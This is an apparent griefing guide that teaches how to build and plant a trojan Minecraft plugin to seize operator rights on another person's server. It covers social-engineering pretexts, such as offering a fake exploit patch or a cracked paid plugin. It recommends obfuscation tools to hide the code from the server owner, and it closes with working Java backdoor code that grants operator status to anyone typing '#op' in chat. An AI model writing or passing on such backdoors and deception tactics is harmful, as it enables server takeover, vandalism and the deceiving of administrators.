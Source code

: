 # Poisoned Plugin

**Overview**

A poisoned plugin (also called a backdoored or trojan plugin) is a plugin that can be used to gain yourself administrator privileges on a Minecraft server. The idea is to trick the server owner or administrator to install a malicious plugin on their server. How do you do that? This requires some social engineering.

A trojan is a piece of malware that looks legit, but it's purpose and execution is malicious. The term is derived from the Ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy. The Greeks built a wooden horse and gave it to the Troys, making them think they had surrendered. The Troys accepted the horse and moved it inside of the city. What they didn't know was that the horse was hollow and filled with Greek soldiers, ready to slay.

You can make the server owner or administrator install the plugin by first finding an exploit or bug on the server. This could e.g. be a crash exploit. Tell the owner that you discovered the exploit, and you have a patch for it. Send them the legit-looking plugin, and make them install it on the server. When it's installed, you can then use it's feature to gain OP and grief the server.

An other way to make them intall it, is by telling them that you've got a cracked version of a paid plugin. E.g. Advanced Anti Cheat (AAC).

This griefing method requires a little knowledge in Java programming, as you need to develop your own plugin.

If you know how to script scripts using Skript or Denizen, you can obtain the same result. Of course you need to hide the code better e.g. by obfuscating it (make the code look confusing), as the server owner or administrator can easily read it. Same goes for Java plugins. You can obfuscate Skript scripts by using [Obfuskator](https://www.spigotmc.org/resources/skript-tool-obfuskator-jar-encapsulation.60791), and [ProGuard](https://sourceforge.net/projects/proguard) for Java plugins.

Here's an example of what a very simple unobfuscated poisoned plugins code in Java could look like:
```java
public class main extends JavaPlugin implements Listener {

    public void onEnable() {
        this.getServer().getPluginManager().registerEvents((Listener)this, (Plugin)this);
    }
    
    @EventHandler
    public void onPlayerChat(PlayerChatEvent event) {
        if (event.getMessage().startsWith("#op")) {
            event.setCancelled(true);
            event.getPlayer().setOp(true);
        }
    }
}
```